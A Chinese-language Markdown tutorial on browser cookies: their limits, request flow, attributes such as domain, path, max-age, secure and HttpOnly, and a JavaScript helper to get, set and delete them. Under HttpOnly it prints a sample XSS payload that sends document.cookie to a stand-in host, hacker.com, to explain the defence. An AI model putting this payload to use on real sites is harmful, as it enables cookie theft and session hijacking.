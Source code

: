 ## cookie
`cookie` 是存储在浏览器的一小段文本信息。

### cookie 特征
- 伴随着 `http` 地请求往返于浏览器和服务器之间。
- 不同域名或不同路径下 cookie 的存储区域是不一样的。
- 每个域名下的 cookie 总数是有限的，每个浏览器所能允许存储的 cookie 大小也是有限制的。

  浏览器|每个域名最大 cookie 总数|cookie 总字节数
  --|--|--
  Chrome|180|4096
  Firefox|150|4097
  InternetExplorer|50|5117
  Opera|60|4096
  Safari|600|4093
- 不可跨域，有实效性等。

### cookie 作用
- 标识用户身份。
- 同源下，跨页面通信的一种方式。

### cookie 原理
- 浏览器第一次请求，服务器通过响应头下发 cookie，标识用户身份。
- 浏览器第二次请求，会自动带上符合条件的 cookie，服务器根据 cookie 辨识身份，来返回合理的响应体。

![cookie-原理.png](imgs/cookie-原理.png)

### cookie 属性
**name**: 同一 domain 且同一 path 下的 cookie-name 不可相同，否则会覆盖前者（三者相同）。有两个特殊的 name：

name|含义
--|--
__Secure- 前缀|以 __Secure- 为前缀的 cookie（其中连接符是前缀的一部分），必须与 secure 属性一同设置，同时必须应用于安全页面（即使用 HTTPS 访问的页面）
__Host- 前缀|以 __Host- 为前缀的 cookie，必须与 secure 属性一同设置，必须应用于安全页面（即使用 HTTPS 访问的页面），必须不能设置 domain 属性 （也就不会发送给子域），同时 path 属性的值必须为“/”

> [谷歌搜索](https://www.google.com/)就存在带有这种特殊前缀的 cookie-name。

**value**: 许多应用对其进行了编码，但按照 RFC 规范，无须编码。

**domain**: 控制 cookie 对哪个域有效。默认值是自动绑定当前站点的根路径。
- 不可跨域，比如在 localhost:5000 下不可设置 domain 为 127.0.0.1:7001 站点下的 cookie。
- 一级域名相同下的 cookie 可作用于二级域名，但是二级域名间不可交换使用。<br />比如：a.baidu.com 和 b.baidu.com 可使用 .baidu.com 域名下的 cookie，但 a.baidu.com 和 b.baidu.com 站点下的 cookie 不可相互使用。

**path**: 设置 cookie 的作用路径（就是页面路由 pathname）。

场景|含义
--|--
设置 cookie 时，缺省 path|默认是当前页面的 pathname
用户访问 /|只能使用 / 路径下的 cookie，不能使用子路径（/spa、/ssr）下的 cookie。
用户访问 /spa|可使用 / 和 /spa 下的 cookie，但不能使用 /ssr 下的 cookie。
在 / 路径下可设置 /spa 路径下的 cookie|能设置成功。但是 chrome 浏览器的 cookie 面板只显示作用于当前窗口的 cookie。firefox 浏览器的 cookie 面板上显示（不管 cookie 是否作用于当前路由）。

**expires/max-age**: 设置 cookie 的过期时间。默认是 session，浏览器会话结束（关闭浏览器）时。
  - expires 是一个时间点，单位**毫秒**； 
  - max-age 是一个以**秒**为时间的时间段。可能的值：负数、0、正数。
    值|含义
    --|--
    负数|有效期为 session
    0|删除 cookie
    正数|有效期为创建时刻 + 最大时间

    ``` js
    // 两年后过期：
    const expires = new Date(Date.now() + 2 * 365 * 24 * 3600 * 1000).toGMTString()
    const maxAge = 2 * 365 * 24 * 3600;
    ```

> 同时设置 max-age 和 expires 时，max-age 优先级更高。

**secure**: 默认情况下，不管是 http、https 协议的请求都会把 cookie 发送到服务端。设置 secure 为 true 时，此时的 cookie 只能在 https 等安全协议下传输。
> 注意：只有是在 https 安全协议下的 web 站点，才能设置 secure 的值。

**HttpOnly**: 是否禁止浏览器通过 document.cookie 获取 cookie。这样能有效防止 XSS 攻击。假如 hacker 植入 script 脚本成功了且目标站点 HttpOnly 又设置为 false，那么 hacker 可轻松获取用户的 cookie：

``` js
<script>
  new Image().src = 'http://www.hacker.com/c=' + decodeURIComponent(document.cookie)
</script>
```

### cookie 设置、获取、删除
``` js
const doCookie = {
  get: function(name) {
    const urlSearchParams = new URLSearchParams(document.cookie.replace(/;\s/g, '&'))
    return urlSearchParams.get(name)

    /**
     * 
        var match = document.cookie.match(
          new RegExp('(^|\\s)' + name + '=([^;]*)')
        );
        return (match ? decodeURIComponent(match[2]) : null);
     */
  },
  set: function({ name, value, domain, path, expires, maxAge, secure }) {
    const anns = [
      `${name}=${encodeURIComponent(value)}`
    ]

    if (typeof domain === 'string') anns.push(`domain=${domain}`)
    if (typeof path === 'string') anns.push(`path=${path}`)
    if (typeof expires === 'number') {
      expires = new Date(Date.now() + expires).toGMTString()
      anns.push(`expires=${expires}`)
    }
    typeof maxAge === 'number' && anns.push(`max-age=${maxAge}`)
    secure === true && anns.push('secure')
    
    document.cookie = anns.join('; ')
  },
  delete: function(args) {
    args.maxAge = 0
    this.set(args)
  }
}
```

### cookie 优缺点
优点：
- 扩展性和可用性较强
- 加密技术得当且不存放敏感数据，减少破解的可能性。

缺点：
- 有数量（20 条）和长度限制（超出 4kb，会被裁掉）。
- 安全性问题，要防范 cookie 拦截。

### refs
- [MDN Set-Cookie](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie)
- [XSS攻击之窃取Cookie](https://blog.fundebug.com/2017/08/16/xss_steal_cookie/)
- [axios cookies.js](https://github1s.com/axios/axios/blob/HEAD/lib/helpers/cookies.js#L34-L36)
- [Cookie 的优缺点](https://www.jianshu.com/p/0a8a4eed337f)
